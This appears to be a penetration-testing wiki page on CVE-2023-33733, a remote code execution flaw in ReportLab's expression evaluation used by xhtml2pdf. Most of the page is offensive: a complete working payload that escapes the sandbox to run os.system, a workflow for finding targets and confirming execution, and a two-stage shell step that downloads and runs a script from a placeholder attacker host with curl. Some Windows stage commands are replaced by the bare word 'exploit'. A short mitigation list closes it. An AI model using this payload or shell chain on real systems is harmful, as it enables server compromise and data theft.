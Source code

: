 # ReportLab/xhtml2pdf [[[...]]] expression-evaluation RCE (CVE-2023-33733)

This page documents a practical sandbox escape and RCE primitive in ReportLab’s rl_safe_eval used by xhtml2pdf and other PDF-generation pipelines when rendering user-controlled HTML into PDFs.

CVE-2023-33733 affects ReportLab versions up to and including 3.6.12. In certain attribute contexts (for example color), values wrapped in triple brackets [[[ ... ]]] are evaluated server-side by rl_safe_eval. By crafting a payload that pivots from a whitelisted builtin (pow) to its Python function globals, an attacker can reach the os module and execute commands.

Key points
- Trigger: inject [[[ ... ]]] into evaluated attributes such as <font color="..."> within markup parsed by ReportLab/xhtml2pdf.
- Sandbox: rl_safe_eval replaces dangerous builtins but evaluated functions still expose __globals__.
- Bypass: craft a transient class Word to bypass rl_safe_eval name checks and access the string "__globals__" while avoiding blocked dunder filtering.
- RCE: getattr(pow, Word("__globals__"))["os"].system("<cmd>")
- Stability: Return a valid value for the attribute after execution (for color, use and 'red').

When to test
- Applications that expose HTML-to-PDF export (profiles, invoices, reports) and show xhtml2pdf/ReportLab in PDF metadata or HTTP response comments.
  - exiftool profile.pdf | egrep 'Producer|Title|Creator' → "xhtml2pdf" producer
  - HTTP response for PDF often starts with a ReportLab generator comment

How the sandbox bypass works
- rl_safe_eval removes or replaces many builtins (getattr, type, pow, ...) and applies name filtering to deny attributes starting with __ or in a denylist.
- However, safe functions live in a globals dictionary accessible as func.__globals__.
- Use type(type(1)) to recover the real builtin type function (bypassing ReportLab’s wrapper), then define a Word class derived from str with mutated comparison behavior so that:
  - .startswith('__') → always False (bypass name startswith('__') check)
  - .__eq__ returns False only at first comparison (bypass denylist membership checks) and True afterwards (so Python getattr works)
  - .__hash__ equals hash(str(self))
- With this, getattr(pow, Word('__globals__')) returns the globals dict of the wrapped pow function, which includes an imported os module. Then: ['os'].system('<cmd>').

Minimal exploitation pattern (attribute example)
Place payload inside an evaluated attribute and ensure it returns a valid attribute value via boolean and 'red'.

<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('ping 10.10.10.10') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
  exploit
</font></para>

- The list-comprehension form allows a single expression acceptable to rl_safe_eval.
- The trailing and 'red' returns a valid CSS color so the rendering doesn’t break.
- Replace the command as needed; use ping to validate execution with tcpdump.

Operational workflow
1) Identify PDF generator
   - PDF Producer shows xhtml2pdf; HTTP response contains ReportLab comment.
2) Find an input reflected into the PDF (e.g., profile bio/description) and trigger an export.
3) Verify execution with low-noise ICMP
   - Run: sudo tcpdump -ni <iface> icmp
   - Payload: ... system('ping <your_ip>') ...
   - Windows often sends exactly four echo requests by default.
4) Establish a shell
   - For Windows, a reliable two-stage approach avoids quoting/encoding issues:
     - Stage 1 (download):

exploit

     - Stage 2 (execute):

exploit

   - For Linux targets, similar two-stage with curl/wget is possible:
     - system('curl http://ATTACKER/s.sh -o /tmp/s; sh /tmp/s')

Notes and tips
- Attribute contexts: color is a known evaluated attribute; other attributes in ReportLab markup may also evaluate expressions. If one location is sanitized, try others rendered into the PDF flow (different fields, table styles, etc.).
- Quoting: Keep commands compact. Two-stage downloads drastically reduce quoting and escaping headaches.
- Reliability: If exports are cached or queued, slightly vary the payload (e.g., random path or query) to avoid hitting caches.

Mitigations and detection
- Upgrade ReportLab to 3.6.13 or later (CVE-2023-33733 fixed). Track security advisories in distro packages as well.
- Do not feed user-controlled HTML/markup directly into xhtml2pdf/ReportLab without strict sanitization. Remove/deny [[[...]]] evaluation constructs and vendor-specific tags when input is untrusted.
- Consider disabling or wrapping rl_safe_eval usage entirely for untrusted inputs.
- Monitor for suspicious outbound connections during PDF generation (e.g., ICMP/HTTP from app servers when exporting documents).

References
- PoC and technical analysis: [c53elyas/CVE-2023-33733](https://github.com/c53elyas/CVE-2023-33733)
- 0xdf University HTB write-up (real-world exploitation, Windows two-stage payloads): [HTB: University](https://0xdf.gitlab.io/2025/08/09/htb-university.html)
- NVD entry (affected versions): [CVE-2023-33733](https://nvd.nist.gov/vuln/detail/cve-2023-33733)
- xhtml2pdf docs (markup/page concepts): [xhtml2pdf docs](https://xhtml2pdf.readthedocs.io/en/latest/format_html.html)

